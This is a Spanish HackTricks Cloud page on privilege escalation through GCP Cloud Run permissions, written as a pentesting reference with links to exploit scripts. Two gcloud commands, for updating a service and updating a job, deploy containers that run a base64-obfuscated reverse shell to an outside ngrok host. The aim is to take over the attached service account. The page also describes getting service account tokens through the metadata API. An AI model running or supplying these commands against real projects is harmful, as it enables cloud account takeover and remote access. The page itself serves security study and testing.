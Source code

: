 # GCP - Run Privesc

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## run

### `run.services.create` , `iam.serviceAccounts.actAs`

Similar al método _cloudfunctions.functions.create_, este método crea un **nuevo Servicio de Cloud Run** que, al ser invocado, **devuelve el token de acceso de la Cuenta de Servicio** accediendo a la API de metadatos del servidor en el que se está ejecutando. Se desplegará un servicio de Cloud Run y se puede realizar una solicitud para obtener el token.

Los siguientes **permisos son necesarios** para este método:

* _run.services.create_
* _iam.serviceaccounts.actAs_
* _run.services.setIamPolicy_ **O** _run.routes.invoke_

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

Este método utiliza una imagen de Docker incluida que debe ser construida y alojada para ser explotada correctamente. La imagen está diseñada para indicar a Cloud Run que responda con el token de acceso de la Cuenta de Servicio cuando se realiza una solicitud HTTP.

El script de explotación para este método se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) y la imagen de Docker se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Por alguna razón, al usar `gcloud run deploy` en lugar de solo crear el servicio **se necesita el permiso de actualización**. Consulta un [**ejemplo aquí**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Como el anterior pero actualizando un servicio
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

Otórgate permisos previos.

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

Lanza un trabajo con una shell inversa para robar la cuenta de servicio indicada en el comando. Puedes encontrar un [**exploit aquí**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/m-run.jobs.create.sh).

### `run.jobs.update`, `run.jobs.run`, `iam.serviceaccounts.actAs`, (`run.jobs.get`)

Similar al anterior, es posible **actualizar un trabajo y actualizar la SA**, el **comando** y **ejecutarlo**:
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

Otórgate los permisos anteriores.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
